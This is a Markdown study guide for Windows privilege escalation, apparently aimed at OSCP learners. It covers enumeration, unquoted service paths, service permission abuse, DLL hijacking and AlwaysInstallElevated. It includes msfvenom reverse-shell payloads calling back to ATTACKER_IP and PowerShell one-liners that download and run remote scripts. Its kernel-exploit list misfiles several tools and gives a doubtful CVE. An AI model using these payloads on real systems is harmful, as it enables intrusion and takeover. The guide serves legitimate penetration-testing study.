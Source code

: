 # Windows Privilege Escalation

This guide covers common Windows privilege escalation techniques for the OSCP exam, focusing on identifying and exploiting misconfigurations and vulnerabilities in Windows systems.

## 📋 Table of Contents
1. [Enumeration](#enumeration)
2. [Kernel Exploits](#kernel-exploits)
3. [Service Exploits](#service-exploits)
4. [DLL Hijacking](#dll-hijacking)
5. [Unquoted Service Paths](#unquoted-service-paths)
6. [AlwaysInstallElevated](#alwaysinstallelevated)
7. [Tools](#-tools)
8. [Practice](#-practice)

## Enumeration

### System Information
```powershell
# Basic system info
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# Environment variables
set

# Network info
ipconfig /all
route print
arp -a

# Running processes
tasklist /SVC
netstat -ano

# Installed software
dir "C:\Program Files"
dir "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE
```

### User Information
```powershell
# Current user
whoami /all
whoami /groups | findstr "Mandatory"

# Other users
net user
net user [username]
net localgroup
net localgroup [groupname]

# Privileges
whoami /priv

# Scheduled tasks
schtasks /query /fo LIST /v

# Services
net start
sc query
sc qc [service_name]

# Auto-runs
wmic startup get caption,command
```

## Kernel Exploits

### Finding Windows Version
```powershell
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
wmic os get version
```

### Common Kernel Exploits
- **PrintSpoofer**: CVE-2019-1385
- **JuicyPotato**: CLSID exploit
- **HotPotato**: NTLM relay attack
- **MS16-032**: Secondary Logon Handle
- **MS17-010**: EternalBlue

### Using Watson
```powershell
# Download and run Watson
# https://github.com/rasta-mouse/Watson
Watson.exe
```

## Service Exploits

### Unquoted Service Paths
```powershell
# Find services with unquoted paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

# Example exploit
# If path is C:\Program Files\Vulnerable Service\service.exe
# Create C:\Program.exe with reverse shell
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe > Program.exe
```

### Insecure Service Permissions
```powershell
# Check service permissions
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv [service_name]

# If you have SERVICE_CHANGE_CONFIG
sc config [service_name] binpath= "C:\path\to\malicious.exe"
sc stop [service_name]
sc start [service_name]
```

## DLL Hijacking

### Finding Vulnerable Services
```powershell
# Check service DLLs
wmic service get name,pathname,startmode | findstr /i /v "C:\Windows\\"

# Check %PATH% for writable directories
for %i in ("%path:;=" "%") do @echo %i && icacls "%i" 2>nul | findstr /i "(F) (M) (W) :\" | findstr ":\" "
```

### Exploiting DLL Hijacking
1. Find a service that loads a DLL from a writable directory
2. Create a malicious DLL with your payload
3. Place it in the writable directory
4. Restart the service or wait for a reboot

## AlwaysInstallElevated

### Check Registry
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Create MSI Package
```bash
# On Kali
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f msi -o setup.msi

# On target
msiexec /quiet /qn /i C:\path\to\setup.msi
```

## 🛠 Tools

### Local Enumeration
- **WinPEAS**: `powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/winPEAS.ps1')"`
- **PowerUp.ps1**: `powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/PowerUp.ps1'); Invoke-AllChecks"`
- **Seatbelt**: `Seatbelt.exe -group=all`
- **AccessChk**: Check service permissions

### Privilege Escalation Scripts
- **Watson**: Find missing patches
- **Sherlock**: Find missing patches (PowerShell)
- **JAWS**: Just Another Windows (Enum) Script

## 📚 Resources
- [PayloadsAllTheThings - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [HackTricks - Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
- [FuzzySecurity Windows Privilege Escalation](https://www.fuzzysecurity.com/tutorials/16.html)
- [Sushant's Windows PrivEsc Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

## 🎯 Practice
1. [TryHackMe Windows PrivEsc Room](https://tryhackme.com/room/windows10privesc)
2. [Hack The Box Windows Machines](https://www.hackthebox.com/)
3. [VulnHub Windows Machines](https://www.vulnhub.com/)

## ⚠️ Legal Note
Only perform privilege escalation on systems you own or have explicit permission to test. Unauthorized testing is illegal.

